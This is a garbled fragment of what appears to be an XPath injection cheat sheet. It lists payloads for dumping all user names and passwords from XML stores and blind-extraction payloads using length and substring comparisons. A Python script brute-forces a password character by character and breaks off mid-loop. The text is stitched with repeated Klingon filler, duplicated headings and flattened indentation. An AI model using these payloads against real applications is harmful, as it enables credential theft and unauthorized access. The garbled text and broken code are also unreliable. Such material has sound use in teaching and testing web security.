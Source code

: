 lo'laHbe' 'e' yu'eghDI' 'ej lo'laHbe' 'e' yu'eghDI' 'ej lo'laHbe' 'e' yu'eghDI' 'ej lo'laHbe' 'e' yu'eghDI' 'ej lo'laHbe' 'e' yu'eghDI' 'ej lo'laHbe' 'e' yu'egh
```
/user/username[contains(., '+VALUE+')]
```

```
') or 1=1 or (' #Get all names
') or 1=1] | //user/password[('')=(' #Get all names and passwords
') or 2=1] | //user/node()[('')=(' #Get all values
')] | //./node()[('')=(' #Get all values
')] | //node()[('')=(' #Get all values
') or 1=1] | //user/password[('')=(' #Get all names and passwords
')] | //password%00 #All names and passwords (abusing null injection)
')]/../*[3][text()!=(' #All the passwords
')] | //user/*[1] | a[(' #The ID of all users
')] | //user/*[2] | a[(' #The name of all users
')] | //user/*[3] | a[(' #The password of all users
')] | //user/*[4] | a[(' #The account of all users
```
## **Blind Explotation**

### **Get length of a value and extract it by comparisons:**

### **tlhIngan Hol translation:**

## **Blind Explotation**

### **DochmeywI' pagh value length teb chaw' 'ej comparisonmeyDaq jImej:**
```bash
' or string-length(//user[position()=1]/child::node()[position()=1])=4 or ''=' #True if length equals 4
' or substring((//user[position()=1]/child::node()[position()=1]),1,1)="a" or ''=' #True is first equals "a"

substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)

... and ( if ( $employee/role = 2 ) then error() else 0 )... #When error() is executed it rises an error and never returns a value
```
### **Python Example**

### **Python Example**
```python
import requests, string

flag = ""
l = 0
alphabet = string.ascii_letters + string.digits + "{}_()"
for i in range(30):
r = requests.get("http://example.com?action=user&userid=2 and string-length(password)=" + str(i))
if ("TRUE_COND" in r.text):
l = i
break
print("[+] Password length: " + str(l))
for i in range(1, l + 1): #print("[i] Looking for char number " + str(i))
for al in alphabet:
r = requests.get("http://example.com?action=user&userid=2 and substring(password,"+str(i)+",1)="+al)
if ("TRUE_COND" in r.text):
```